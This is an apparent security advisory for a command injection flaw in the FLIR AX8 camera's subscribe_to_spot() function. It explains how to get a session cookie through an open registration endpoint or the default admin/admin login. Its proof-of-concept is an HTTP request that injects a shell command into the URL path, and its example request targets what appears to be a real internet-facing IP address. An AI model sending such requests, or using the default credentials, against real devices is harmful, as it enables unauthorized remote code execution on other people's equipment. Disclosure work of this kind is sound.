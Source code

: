 # Command injection vulnerability in subscribe_to_spot() in FLIR AX8

### Description

Command injection vulnerability in /usr/www/application/models/subscriptions.php  in FLIR AX8 up to 1.46.16 allows attackers to run arbitrary commands via the function subscribe_to_spot()

### Note:

This vulnerability is a backend issue that requires obtaining cookies. It  can exploit the unauthorized access vulnerability for arbitrary user  registration found at /tools/test_login.php?action=register. After  registering a new user, cookies can be obtained to achieve RCE (Remote  Code Execution). 

Also.Under normal circumstances, it has a weak password vulnerability with  default account credentials being 'admin' for both user and password too.  You can also obtain a cookie through this method.

### POC

```
GET /home/subscribe/spot/;whoami>test.txt; HTTP/1.1
Host: XXXXXX
Cookie: PHPSESSID=XXXXXXX
```

For example

- this cookie must be changed

```
GET /home/subscribe/spot/;whoami>test.txt; HTTP/1.1
Host: 222.103.211.89:8004
Cookie: PHPSESSID=XXXXXXXX
```